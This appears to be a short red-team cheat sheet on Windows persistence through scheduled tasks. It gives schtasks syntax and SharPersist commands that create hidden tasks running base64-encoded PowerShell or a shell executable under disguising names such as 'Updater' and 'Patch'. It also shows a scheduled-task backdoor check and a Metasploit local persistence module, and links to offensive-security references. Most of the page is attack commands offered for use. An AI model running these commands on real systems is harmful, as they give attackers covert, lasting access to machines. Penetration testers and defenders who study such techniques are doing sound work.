 # Schtasks

## 01 - Command Prompt

`C:\> schtasks /create /tn <task_name> /sc <minute | hourly | daily | weekly | monthly | once | onstart | onlogon | onidle> /st HH:MM:SS /st <MM/DD/YYYY> /sd <MM/DD/YYYY> /tr <commands>`

## 02 - SharPersist

```
C:\> SharPersist.exe -t schtask -c "C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc <base64_encoded>" -n "Updater" -m add -o hourly

C:\> SharPersist.exe -t schtask -c "C:\Windows\System32\cmd.exe" -a "/c C:\path\to\shell.exe" -n "Patch" -m add -o logon

C:\> SharPersist.exe -t schtaskbackdoor -c "C:\Windows\System32\cmd.exe" -a "/c C:\path\to\shell.exe" -n "Patch" -m check

C:\> SharPersist.exe -t schtaskbackdoor -m list -o logon
```

## 03 - Metasploit

```
msf > use exploit/windows/local/s4u_persistence
```

## References

- [Mandiant: SharPersist Windows Persistence Toolkit](https://www.mandiant.com/resources/sharpersist-windows-persistence-toolkit)

- [Zweilosec: Windows RedTeam Persistence](https://zweilosec.gitbook.io/hackers-rest/windows-1/windows-redteam/persistence)

- [Persistence Info](https://persistence-info.github.io/)

- [Persistence Scheduled Tasks](https://pentestlab.blog/2019/11/04/persistence-scheduled-tasks/)

- [Cobalt Strike: Schtasks Persistence with Powershell one liners](https://www.cobaltstrike.com/blog/schtasks-persistence-with-powershell-one-liners/)